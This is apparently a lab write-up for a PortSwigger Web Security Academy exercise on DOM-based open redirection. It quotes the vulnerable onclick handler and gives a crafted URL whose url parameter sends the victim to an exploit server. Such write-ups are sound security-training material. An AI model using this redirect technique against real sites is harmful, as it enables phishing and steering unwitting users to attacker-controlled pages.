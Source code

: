 # DOM-based open redirection

## Description

[This lab](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection) contains a DOM-based open-redirection vulnerability. 

## Reproduction and proof of concept

1. Notice the blog post page contains:

```
<a href=’#’ onclick=’returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = “/”’>Back to Blog</a>
```

The `url` parameter allows changing the `Back to Blog` link.

2. Construct a URL for redirecting the user to the exploit server:

```text
https://lab-id.web-security-academy.net/post?postId=1&url=https://exploit-server-id.web-security-academy.net/
```

3. Paste this url in browser and hit enter.

## Exploitability

To solve this lab, an attacker needs to exploit this vulnerability and redirect the victim to the exploit server. 
